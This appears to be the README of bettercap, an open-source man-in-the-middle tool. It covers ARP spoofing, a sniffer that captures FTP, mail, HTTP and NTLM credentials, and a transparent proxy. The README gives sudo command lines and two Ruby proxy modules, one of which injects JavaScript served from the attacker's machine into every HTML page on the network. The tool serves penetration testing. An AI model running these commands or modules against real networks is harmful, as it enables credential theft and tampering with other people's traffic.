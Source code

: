![logo](https://raw.github.com/evilsocket/bettercap/master/pics/header.png)

Copyleft of Simone '[evilsocket](https://twitter.com/evilsocket)' Margaritelli*.  

http://www.bettercap.org/

[![Gem Version](https://badge.fury.io/rb/bettercap.svg)](http://badge.fury.io/rb/bettercap) 
---

**bettercap** is a complete, modular, portable and easily extensible **MITM** tool and framework with every kind of diagnostic
and offensive feature you could need in order to perform a man in the middle attack.

MOTIVATIONS
===

> Yet another MITM tool? C'mon, really?!!?

This is exactly what you are thinking right now, isn't it? :D
But allow yourself to think about it for 5 more minutes ... what you should be really asking is:

> Does a complete, modular, portable and easy to extend MITM tool actually exist?

If your answer is "ettercap", let me tell you something:

* ettercap **was** a great tool, but it made its time.
* ettercap filters **do not** work most of the times, are outdated and hard to implement due to the specific language they're implemented in.
* ettercap is freaking **unstable** on big networks ... try to launch the host discovery on a bigger network rather than the usual /24 ;)
* yeah you can see connections and raw pcap stuff, **nice toy**, but **as a professional researcher I want to see only relevant stuff**.
* unless you're a C/C++ developer, you can't easily extend ettercap or make your own module.

Indeed you could use more than just one tool ... maybe [arpspoof](http://linux.die.net/man/8/arpspoof) to perform the actual poisoning, [mitmproxy](http://mitmproxy.org) to intercept HTTP stuff and inject your payloads and so forth ... I don't know about you, but I **hate** when I need to use a dozen of tools just to perform one single attack, especially when I need to do some black magic in order to make all of them work on my distro or on OSX ... what about the [KISS](https://en.wikipedia.org/wiki/KISS_principle) principle?

So **bettercap** was born ( isn't the name pure genius? XD ) ...

HOST DISCOVERY + ARP MAN IN THE MIDDLE
=== 

You can target the whole network or a single known address, it doesn't really matter, bettercap arp spoofing capabilities and its multiple hosts discovery agents will do the dirty work for you.  
Just launch the tool and wait for it to do its job ... again, [KISS!](https://en.wikipedia.org/wiki/KISS_principle)

![credentials](https://raw.github.com/evilsocket/bettercap/master/pics/discovery.png)

CREDENTIALS SNIFFER
===

The built in sniffer is currently able to dissect and print from the network the following informations:

- URLs being visited.
- HTTPS host being visited.
- HTTP POSTed data.
- HTTP Basic and Digest authentications.
- FTP credentials.
- IRC credentials.
- POP, IMAP and SMTP credentials.
- NTLMv1/v2 ( HTTP, SMB, LDAP, etc ) credentials.

![credentials](https://raw.github.com/evilsocket/bettercap/master/pics/credentials.png)

**Examples**

Default sniffer mode, all parsers enabled:
    
    sudo bettercap -X
    
Enable sniffer and load only specified parsers:
    
    sudo bettercap -X -P "FTP,HTTPAUTH,MAIL,NTLMSS"

Enable sniffer + all parsers and parse local traffic as well:
    
    sudo bettercap -X -L
    
MODULAR TRANSPARENT PROXY
===

A modular transparent proxy can be started with the --proxy argument, by default it won't do anything 
but logging HTTP requests, but if you specify a **--proxy-module** argument you will be able to load
your own modules and manipulate HTTP traffic as you like.  

![credentials](https://raw.github.com/evilsocket/bettercap/master/pics/proxy.png)

**Examples**

Enable proxy on default ( 8080 ) port with no modules ( quite useless ): 
    
    sudo bettercap --proxy

Enable proxy and use a custom port:
    
    sudo bettercap --proxy --proxy-port=8081
    
Enable proxy and load the module **example_proxy_module.rb**:
    
    sudo bettercap --proxy --proxy-module=example_proxy_module.rb

Disable spoofer and enable proxy ( stand alone proxy mode ):

    sudo bettercap -S NONE --proxy

**Modules**

You can easily implement a module to inject data into pages or just inspect the
requests/responses creating a ruby file and passing it to bettercap with the --proxy-module argument, 
the following is a sample module that injects some contents into the title tag of each html page.

```ruby
class HackTitle < Proxy::Module
  def on_request( request, response )
    # is it a html page?
    if response.content_type == 'text/html'
      Logger.info "Hacking http://#{request.host}#{request.url} title tag"
      # make sure to use sub! or gsub! to update the instance
      response.body.sub!( '<title>', '<title> !!! HACKED !!! ' )
    end
  end
end
```

BUILTIN HTTP SERVER
===

You want to serve your custom javascript files on the network? Maybe you wanna inject some custom
script or image into HTTP responses using a transparent proxy module but you got no public server
to use? **no worries dude** :D  
A builtin HTTP server comes with bettercap, allowing you to serve custom contents from your own
machine without installing and configuring other softwares such as Apache, nginx or lighttpd. 

You could use a **proxy module** like the following:

```ruby
class InjectJS < Proxy::Module
  def on_request( request, response )
    # is it a html page?
    if response.content_type == 'text/html'
      Logger.info "Injecting javascript file into http://#{request.host}#{request.url} page"
      # get the local interface address and HTTPD port
      localaddr = Context.get.iface[:ip_saddr]
      localport = Context.get.options[:httpd_port]
      # inject the js
      response.body.sub!( '</title>', "</title><script src='http://#{localaddr}:#{localport}/file.js' type='text/javascript'></script>" )
    end
  end
end
```

And then use it to inject the js file in every HTTP response of the network, using bettercap itself
to serve the file:

    sudo bettercap --httpd --http-path=/path/to/your/js/file/ --proxy --proxy-module=inject.rb 

HOW TO INSTALL
===

**Stable Release ( GEM )**
    
    gem install bettercap
    
**From Source**
    
    git clone https://github.com/evilsocket/bettercap
    cd bettercap
    gem build bettercap.gemspec
    sudo gem install bettercap*.gem

DEPENDS
===

All dependencies will be automatically installed through the GEM system, in some case you might need to install some system
dependency in order to make everything work:

    sudo apt-get install ruby-dev libpcap-dev
   
This should solve issues such as [this one](https://github.com/evilsocket/bettercap/issues/22).

